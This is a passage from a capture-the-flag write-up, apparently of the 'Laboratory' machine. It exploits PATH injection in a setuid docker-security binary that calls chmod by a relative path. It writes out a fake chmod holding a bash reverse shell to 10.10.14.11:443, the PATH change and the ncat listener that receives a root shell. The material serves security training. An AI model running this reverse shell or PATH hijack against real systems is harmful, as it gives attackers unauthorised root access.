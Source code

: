 The strace gives us a lot more output than ltrace, however again gives a bit of information what is executed.

### Exploiting path-injection

You may already have spotted the vulnerability. If not, we have path-injection! Meaning that a binary is being called using relative paths. (In our case `chmod`). This vulnerability can be exploited easily.

In order to exploit path-injection we have to do following steps:

1. Create payload with same name as the target binary
2. Add location of payload in from of the path environment variable
3. Execute setuid binary
4. Wait for payload-execution

Let us start the exploitation by creating our payload file. For this, we can use any bash-command as a payload. I am going to use a bash reverse-shell, however there are other possibilities, such as writing an ssh-key to root's authorized_keys file.

```bash
dexter@laboratory:~$ echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.11/443 0>&1' > /tmp/chmod
dexter@laboratory:~$ cat /tmp/chmod 
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.11/443 0>&1
dexter@laboratory:~$ chmod +x /tmp/chmod
```

Next add the location of the payload (`/tmp`) to the path variable.

```bash
dexter@laboratory:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
dexter@laboratory:~$ export PATH=/tmp:$PATH
dexter@laboratory:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
```

Now we simply have to start a netcat listener and execute the docker-security binary.

```bash
dexter@laboratory:~$ /usr/local/bin/docker-security
```

Checking back to our listener, we successfully get a shell.

```bash
root@darkness:~# nc -vlnp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.216.
Ncat: Connection from 10.10.10.216:51082.
root@laboratory:~#
```

Now that we have a shell as root, we can read root.txt.

```bash
root@laboratory:/root# cat root.txt
f3a24***************************
```
